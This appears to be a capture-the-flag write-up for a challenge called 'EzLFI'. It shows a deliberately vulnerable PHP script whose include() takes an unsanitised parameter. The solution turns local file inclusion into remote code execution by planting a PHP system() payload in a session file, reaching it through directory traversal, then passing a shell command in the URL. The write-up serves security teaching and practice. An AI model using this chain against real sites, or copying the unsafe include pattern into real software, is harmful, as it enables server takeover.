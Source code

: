 # EzLFI

## Description:

> LFI to RCE !

```php
<?php
highlight_file(__FILE__);
session_start();

$action = $_GET['action'];
if($action === 'register') {
    if(isset($_POST['user'])) {
        $_SESSION['user'] = $_POST['user'];
    }
} else if($action === 'module') {
    if(isset($_GET['m'])) {
        // example: m=about.php
        include("module/" . $_GET['m']);
    }
}
```

## Solution:

The `session` parameter can be controlled.

First, submit `user=<?php system(_GET[b]) ?>`, which will be added into the session file. Find `session id` in `document.cookie` with F12. The path of the session file is as follows:

```
/var/lib/php/session/session_{sessionid}
```

The session file can be included by:

```
?action=module&m=../../../../../var/lib/php/session/session_{sessionid}
```

which will execute the php code submitted previously.

Therefore, RCE can be achieved by:

```
?action=module&m=../../../../../var/lib/php/session/session_{sessionid}&b=ls
```
